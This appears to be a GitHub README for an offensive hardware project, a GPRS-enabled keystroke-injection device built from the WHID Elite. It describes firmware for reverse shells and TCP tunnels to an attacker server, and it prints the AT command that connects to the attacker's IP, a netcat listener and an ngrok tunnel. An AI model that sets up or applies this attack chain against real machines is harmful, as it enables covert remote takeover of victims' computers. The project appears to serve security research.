 # GPRS WHID
This project was inspired by [the whid elite](https://github.com/whid-injector/whid-31337) and was relalised by a team of French Institute for Radiological protection and Nuclear Safety (IRSN). 

It extend the inital attack by integrating GPRS connection to it.  
This attack was designed to run on a modified version of the whid Elite with an Atmel Samd instead of an Atmel mega 32U4. 
## Hardware
TODO 
## Firmwares 
### Organisation 
This project provide various attacks each in a different folder: 
- The ``keystoke-injection`` provide a firmware that will open a shell on the target and only write on it every commands received via TCP.
- The ``testserial`` firmware can be used to check the serial connection between the whid and a computer.
- The ``reverseshell-qwerty`` will establish a complete reverse shell between the target and the attacker. It will connect to the hardcoded ip provided in the code and write a payload on the target. 
- The ``reverseshell-AZERTY`` does the same thing but with an  AZERTY target. 
- Inside ``TCPtunnel`` we can find an attack were the WHID setup a TCP connection beetween the localhost:2050 of the target and the server of the attacker. The attacker can add his payload inside th firmware and use this canala s a regular TCP connection

Except ``reverseshell-AZERTY``, every firmwares are designed to work with a qwerty target. 




### Requirement 
#### Whid side  
- Arduino SAMD boards drivers v1.6.12
- Keyboard Library
- Adafruit Fona Library 

On th .ino file, you will need to add your public IP address and the port your are listenning on: 
```CPP
if(!fona.sendCheckReply("AT+CIPSTART=\"TCP\",\"IPV4 Adress\",\"PORT\"",F("OK"),100))
```
#### Server side 
You need to setup a TCP server available behind a public IPV4 address. Netcat can do it easily:
```bash
netcat -lntvp <port>
```
If you don't have a public IPV4, you can use ngrok.io : 
```bash
ngrok.io => ./ngrok tcp <port>
```